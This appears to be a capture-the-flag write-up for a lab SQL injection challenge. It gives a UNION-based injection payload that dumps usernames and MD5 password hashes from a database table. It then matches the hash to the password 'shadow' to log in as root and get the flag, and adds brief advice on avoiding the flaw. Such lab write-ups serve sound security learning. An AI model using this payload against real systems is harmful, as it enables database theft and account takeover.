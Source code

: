 # <span style="text-decoration: underline"> DB_DEFAULT </span>

- Tags : `SQL Injection`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : green">Easy</span>

___

# <span style="text-decoration: underline">problem</span>

From the [member](/member.md) challenge we have found that there is a table called `db_default` of the database `Member_Brute_Force` that contains the following columns

- id
- username
- password

Let's try to see if we can findout anything interesting in that database!

# <span style="text-decoration: underline">Solution</span>

## Extract more contents from the table `db_default`

During the [member](/member.md) challenge we have found out what `table` contains what `column` name

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`,  |
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|

Let's try to get the contents of this table

!> Remember that if we try to access a table that is not present in the default database but in some other database then we have to use the following syntax `database.table`

```sql
1 AND 1=2 UNION SELECT username, CONCAT(CHAR(124), id, CHAR(124), username, CHAR(124), password, CHAR(124)) AS name FROM Member_Brute_Force.db_default --
```

We get the following informations

|Id|Username|Password|
|--|--|--|
|1|root|3bf1114a986ba87ed28fc1b5884fc2f8|
|2|admin|3bf1114a986ba87ed28fc1b5884fc2f8|

We can see the that we have 2 users contining `md5` hash as their password. We allready know the password for the user **admin** thanks to the [brutforce](/brutforce.md) challenge which is `shadow`. We can easily verify that the `md5` hash of the word `shadow` is `3bf1114a986ba87ed28fc1b5884fc2f8` using the following command on **Linux** `echo -n "shadow" | md5sum` and and **MacOs**  `echo -n "shadow" | md5`

And we can see that the both user password hash is "3bf1114a986ba87ed28fc1b5884fc2f8" thus `shadow` being the password for both of them.

And when we try to login using the following credentials 
|username|password|
|--|--|
|root|shadow|

We get the flag `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`.

> This is the same flag as for the `brutforce` challenge where we logged is as the user **admin** using the password `shadow`

# <span style="text-decoration: underline">How to avoid the problem</span>

Sql injection could be a dengerouis problem which could as fas as compromise the whole system. in our situation the programmer used the raw **user input** data inside the query which in turn let the user control what the quert string becomes and so the result is given. This kind of situation can be avoided easily by not using the user input directly in our string.


# <span style="text-decoration: underline">Flag</span>

```text
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```
